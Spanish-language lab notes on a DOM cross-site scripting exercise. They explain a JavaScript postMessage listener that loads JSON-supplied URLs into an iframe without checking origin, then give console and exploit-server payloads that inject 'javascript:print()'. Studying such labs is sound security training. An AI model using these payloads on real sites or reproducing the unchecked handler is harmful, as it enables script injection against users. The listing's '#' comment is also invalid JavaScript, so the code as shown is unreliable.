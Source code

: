 ```javascript
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'),
        ACMEplayer = {
            element: iframe
        },
        d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data); #Lo convierte en un elemento de tipo JSON
    } catch (e) {
        return;
    }
    switch (d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

Este código JavaScript escucha los mensajes enviados a la ventana del navegador (`window`) y ejecuta ciertas acciones en función del contenido del mensaje. A continuación, te explico el código paso a paso:

### 1. **Escuchador de Eventos (`window.addEventListener('message', ...)`):**
   - **Función**: El código adjunta un *event listener* al evento `message` de la ventana, que se activa cuando la ventana recibe un mensaje de otro contexto (por ejemplo, de un iframe o de otra ventana del navegador).
   - **Evento**: `message`. Este evento ocurre cuando se recibe un mensaje desde otra ventana o iframe utilizando `window.postMessage`.

### 2. **Creación de un iframe (`var iframe = document.createElement('iframe')`):**
   - Cuando se recibe un mensaje, el código crea un nuevo elemento `iframe` y lo agrega al cuerpo del documento (`document.body.appendChild(iframe)`).
   - **`ACMEplayer`**: Se crea un objeto llamado `ACMEplayer` con una propiedad `element` que apunta al iframe recién creado. Este objeto parece estar pensado para gestionar el iframe.

### 3. **Intento de Parseo del Mensaje (`try { d = JSON.parse(e.data); } catch(e) { return; }`):**
   - El código intenta interpretar el mensaje recibido (`e.data`) ==como un objeto JSON== usando `JSON.parse`. Si el parseo falla (por ejemplo, si el mensaje no es un JSON válido), se interrumpe la ejecución (`return`).

### 4. **Manejo del Mensaje (`switch(d.type) {...}`):**
   - Dependiendo del valor de `d.type`, se ejecuta una de las siguientes acciones:
     - **`case "page-load":`**
       - Mueve el iframe al área visible del viewport usando `scrollIntoView()`.
     - **`case "load-channel":`**
       - Establece la URL del iframe a `d.url`. Esto hace que el iframe cargue la página en esa URL.
     - **`case "player-height-changed":`**
       - Ajusta las dimensiones del iframe (ancho y alto) a los valores `d.width` y `d.height` recibidos en el mensaje.


==Payload que ejecuta print()==

**Desde consola :** 

postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")

**Desde exploit server :** 
`
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>



